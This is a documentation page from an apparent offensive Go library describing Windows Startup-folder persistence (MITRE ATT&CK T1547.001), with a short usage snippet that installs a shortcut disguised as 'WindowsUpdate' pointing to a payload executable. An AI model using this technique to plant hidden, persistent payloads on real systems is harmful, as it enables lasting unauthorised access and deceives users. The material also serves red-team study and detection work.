

# StartUp Folder Persistence

[<- Back to Persistence Overview](README.md)

**MITRE ATT&CK:** [T1547.001](https://attack.mitre.org/techniques/T1547/001/), [T1547.009 - Shortcut Modification](https://attack.mitre.org/techniques/T1547/009/)
**Package:** `persistence/startup`
**Platform:** Windows
**Detection:** Medium

---

## For Beginners

Windows has a special "Startup" folder. Any shortcut (.lnk) placed in this folder is automatically launched when the user logs on. This technique creates a shortcut pointing to the payload using COM/OLE automation.

---

## How It Works



---

## Usage

```go
import "github.com/oioio-space/maldev/persistence/startup"

// Install shortcut in user's Startup folder
err := startup.Install("WindowsUpdate", `C:\Temp\payload.exe`, "--silent")

// Check
exists := startup.Exists("WindowsUpdate")

// Remove
err = startup.Remove("WindowsUpdate")
```

---

## API Reference

See [persistence.md](../../persistence.md#persistencestartup----startup-folder-lnk-shortcuts)
